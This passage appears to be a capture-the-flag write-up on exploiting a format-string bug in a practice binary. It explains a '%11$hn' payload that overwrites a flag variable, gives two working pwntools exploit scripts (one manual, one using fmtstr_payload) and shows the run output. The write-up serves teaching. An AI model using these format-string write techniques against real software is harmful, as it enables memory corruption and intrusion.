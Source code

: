 ##### Understanding The Payload

The payload was `p32(denyFlag_address) + "%11$hn"` and we have written **4** bytes, now we know the usage of `%n`, what we did here is we given the `denyFlag` address and then we used the `%11$hn`to write a byte at that address, the value is **4** because we added a 4 byte address at the start of the exploit.

---

Using `pwntools` to automate it, we can do:-


```python
from pwn import *

target = 0x0804a04c


payload = p32(target)
payload += b"%11$hn"

p = process("./level2")
pause()
p.sendlineafter(b"!\n", payload)
p.interactive()
```

Running the exploit, we can successfully read the flag:-

```r
d4mianwayne@oracle:~/Pwning/fmt$ python3 level2.py 
[+] Starting local process './level2': pid 15685
[*] Switching to interactive mode
L\xa0\x04
Wow, you got it!
Hello World
[*] Process './level2' stopped with exit code 0 (pid 15685)
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
d4mianwayne@oracle:~/Pwning/fmt$ cat flag.txt 
Hello World
```

### Alternative Way: Pwntools


There is a function in `pwntools` that will automatic generate a payload if the offset to that address is known:-

```python

from pwn import *

target = 0x0804a04c


#payload = p32(target)
#payload += b"%11$hn"

payload = fmtstr_payload(11, {target: 4})

p = process("./level2")
p.sendlineafter(b"!\n", payload)
p.interactive()


```
